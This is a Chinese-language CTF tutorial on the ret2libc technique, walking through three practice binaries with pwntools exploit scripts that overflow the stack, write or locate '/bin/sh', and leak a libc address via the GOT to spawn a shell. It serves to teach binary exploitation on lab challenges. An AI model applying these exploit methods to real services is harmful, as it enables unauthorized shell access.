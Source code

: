 ```yaml
---
title: ret2libc
---
```


## 原理

ret2lic即劫持程序的控制流，使其执行libc中的函数，一般是返回到某个函数的plt处，或者某个函数的具体位置（函数对应got表的内容），大多情况下是执行system('/bin/sh')。

## 例题1

题目下载链接：https://pan.baidu.com/s/1DzkmINus__xu3_qkwoIPwQ 提取码：0000 

首先查看一下程序开了哪些安全保护

![image-20210105202149700](/images/ret2libc/1.png)

程序是小端序32位，开了NX防护。接着使用ida查看一下程序

![image-20210105202739929](/images/ret2libc/2.png)

程序有明显的栈溢出，在plt表中发现有system函数的地址和/bin/sh字符串

![image-20210105203242739](/images/ret2libc/3.png)

![image-20210105203513119](/images/ret2libc/4.png)

通过gdb调试确定字符串s的地址离ebp有多少字节，直接通过ida也能确定需要填充多少字符,，不过动态调试结果比较准

![image-20210105203911307](/images/ret2libc/5.png)

最后的exp如下：

```python
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc1')
elf = ELF('./ret2libc1')

sys_addr = elf.plt['system']
bin_sh = elf.search('/bin/sh').next()

payload = cyclic(0x70) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh)

p.recv()
p.sendline(payload)

p.interactive()
```

## 例题2

题目下载链接：https://pan.baidu.com/s/1I9IOqD3Jq6RrghlUNL0wsg  提取码：0000 

这道题与例题1基本相似，只是程序中没有了/bin/sh字符串，我们需要通过gets函数手动写入/bin/sh字符串到一个可写可执行区域，通常在bss段，在ida找到一个地址

![image-20210105205900389](/images/ret2libc/6.png)

```python
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc2')
elf = ELF('./ret2libc2')

sys_addr = elf.plt['system']
gets_addr = elf.plt['gets']
bss_addr = 0x0804A080

payload = cyclic(0x70) + p32(gets_addr) + p32(sys_addr) + p32(bss_addr) + p32(bss_addr)

p.recv()
p.sendline(payload)
p.sendline('/bin/sh')

p.interactive()
```

## 例题3

题目下载链接：https://pan.baidu.com/s/1wk3JFQBHgVZ0vjfnQk60Ug  提取码：0000 

例题3相对于前面两道例题难度加大了不少，程序中既没有system函数的地址，也没有/bin/sh字符串，我们需要使用libc中的system函数和/bin/sh，题目已经将libc版本给了出来，这时需要泄露libc某个函数的地址。

先使用ida查看程序

![image-20210105213153494](/images/ret2libc/7.png)

主函数中并没有产生溢出，但有两个可以的函数，跟进去看看

![image-20210105213403543](/images/ret2libc/8.png)

See_something函数是打印给定地址的值，可以通过这个漏洞函数可以泄露libc函数的地址

![image-20210105213622064](/images/ret2libc/9.png)

Print_message函数的字符串拷贝存在栈溢出，又main函数可知src字符串长度最多可达256，远超过56。由于在libc中各函数地址的偏移是固定的，通过泄露出某个函数的真实地址，再减去该函数在libc中的地址就能得到libc函数中加载到内存的基址，这样就能计算出system函数和/bin/sh的地址。

exp如下：

```python
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc3')
elf = ELF('./ret2libc3')
libc = ELF('./libc-2.23.so')


p.recvuntil('(in dec) :')
p.sendline(str(elf.got['puts']))
puts_addr = p.recvuntil('/n', drop = True)[-10:]
p.recvuntil('for me :')

libc_base = int(puts_addr, 16) - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
bin_sh = libc_base + libc.search('/bin/sh').next()

payload = cyclic(0x3c) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh)

p.sendline(payload)
p.interactive()
```

## 总结

实际上大部分题都需要我们自己获得system函数的地址，通常是通过libc的延迟绑定机制，泄露出已经执行过的函数的地址，而libc中的函数之间的相对偏移是固定的，有时候还需要返回到main函数或其他函数多次构造payload进行利用。